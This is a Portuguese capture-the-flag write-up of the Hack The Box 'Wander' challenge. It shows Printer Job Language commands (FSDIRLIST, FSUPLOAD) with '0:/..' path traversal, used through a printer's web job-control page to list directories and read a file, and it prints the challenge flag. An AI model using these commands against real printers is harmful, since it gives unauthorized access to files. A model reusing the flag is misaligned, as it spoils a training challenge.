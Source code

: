 # Write-Up: Wander

# **Write-Up: Wander**

## **Descrição do Desafio**

**Nome:** **Wander**

**Plataforma:** Hack The Box

**Categoria:** Hacking

**Dificuldade:** Fácil

**Data:** Novembro/2024

**Descrição:**

> Você está tentando acessar uma impressora bloqueada por um PIN e, para isso, encontrou um servidor web de gerenciamento da impressora. O responsável pelo bloqueio, seu tio, está fora de férias e você precisa desbloquear a impressora para poder imprimir documentos. O desafio é descobrir como acessar o sistema e obter o PIN necessário para liberar a impressora, levando em consideração que o gerenciamento da impressora é feito através desse servidor web.
> 

---

## **Passo a Passo da Solução**

### **1. Análise Inicial**

- Inicialmente, é fornecido apenas um endereço IP e uma porta, mas não é possível acessar esse endereço diretamente via netcat. Então, utilizo o navegador para acessar o site. Ao acessar o endereço, sou redirecionado para uma página de configuração de impressora.

![image.png](images/image.png)

- Explorando o sistema, é possível encontrar a página **Job Controls**, onde é possível interagir com o sistema da impressora utilizando uma linguagem de comandos de controle de impressora chamada **Printer Job Language** (PJL).

![image.png](images/image%201.png)

### **2. Entendendo a Printer Job Language** (PJL).

Quando encontro a página Job Controls, é possível perceber no formulário o seguinte comando: `@PJL INFO ID`, pesquisando o que seria PJL, encontro este site: [**Print Job Language (PJL) | hp’s Developer Portal](https://developers.hp.com/hp-printer-command-languages-pcl/doc/print-job-language-pjl)** com um documento que contém informações sobre **Printer Job Language** (PJL).

As principais funções são:

- FSAPPEND
- FSDIRLIST
- FSDELETE
- FSDOWNLOAD

- FSINIT
- FSMKDIR
- FSQUERY
- FSUPLOAD

Cada função apresenta uma sintaxe diferente que deve ser conferida no documento.

### **3.  Encontrando a Flag**

Dentro do terminal da impressora iremos usar as seguintes funções:

`@PJL FSDIRLIST NAME=”PATH”`

`@PJL FSUPLOAD NAME=”PATH”`

Começando a navegar no terminal com o comando `@PJL FSDIRLIST NAME="0:/.."` , é exibido os seguintes diretórios.

![image.png](images/image%202.png)

Navegando para o diretório home com `@PJL FSDIRLIST NAME="0:/../home"` , encontramos outro diretório chamado default.

![image.png](images/image%203.png)

Acessando o diretório default com `@PJL FSDIRLIST NAME="0:/../home/default"`, há um arquivo chamado readyjob.

![image.png](images/image%204.png)

Para ler esse arquivo é preciso usar a função `@PJL FSUPLOAD NAME="0:/../home/default/readyjob"` , onde é possível encontrar a flag.

![image.png](images/image%205.png)

**Flag:**

`HTB{w4lk_4nd_w0nd3r}`